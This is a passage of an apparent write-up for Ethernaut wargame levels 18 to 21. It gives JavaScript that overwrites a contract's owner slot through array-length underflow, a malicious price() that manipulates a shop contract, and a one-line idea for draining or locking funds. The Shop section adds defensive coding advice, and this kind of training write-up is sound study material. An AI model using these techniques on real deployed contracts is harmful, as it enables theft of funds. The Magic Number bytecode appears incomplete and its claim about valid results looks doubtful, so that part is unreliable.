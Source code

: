## 18. Magic Number ✅ [Easy]

This level tests constructing minimal contract and how to deploy contract directly through EVM bytecode:
Core goal of this challenge is to deploy contract meeting following conditions:

Total code length not exceeding 10 bytes.
Return any valid result (not necessarily 42).
```assembly
PUSH1 0xff   // Push value 255
PUSH1 0x00   // Return data storage location
RETURN
```

## 19. Alien Codex ✅ [Medium]

Strategy is simple: exploit codex.length-- to make index overflow then Ethereum will consider codex distributed across entire 2^256-1 slots (Ethereum considers array codex elements range extends to all storage slots (0 ~ 2^256-1)) then we calculate index i for slot0 (Owner), and modify owner stored in slot
Implementation is complex:
```js
// Calculate target index
const hash1 = web3.utils.keccak256(web3.eth.abi.encodeParameter("uint256", 1));
const targetIndex = web3.utils.toBN(2).pow(web3.utils.toBN(256)).sub(web3.utils.toBN(hash1));
// Modify slot 0
const attackerBytes32 = web3.utils.padLeft(attacker, 64); // Convert attacker address to bytes32
alienCodex.methods.revise(targetIndex.toString(), attackerBytes32).send({ from: attacker });
```

## 20. Denial ✅ [Easy]

Very simple, still using call vulnerability, just consume large amount of gas, or directly steal all money

## 21. Shop ✅ [Easy]

Main focus is attacker's logic:
```solidity
 function price() external view override returns (uint256) {
        // Return different prices based on isSold state
        return shop.isSold() ? 0 : 100;
    }
```

May change in practice, main ideas are:
- Avoid using external contract function return values to determine logic:
External calls are uncontrollable, can be maliciously manipulated.
- Use view function to get external values and save immediately:
Save external function return value to variable, avoid multiple calls:

```solidity
uint256 currentPrice = _buyer.price();
if (currentPrice >= price && !isSold) {
    isSold = true;
    price = currentPrice;
}
```
- Strict logic validation:
Use internal logic or fixed values to determine contract behavior instead of external dependencies.
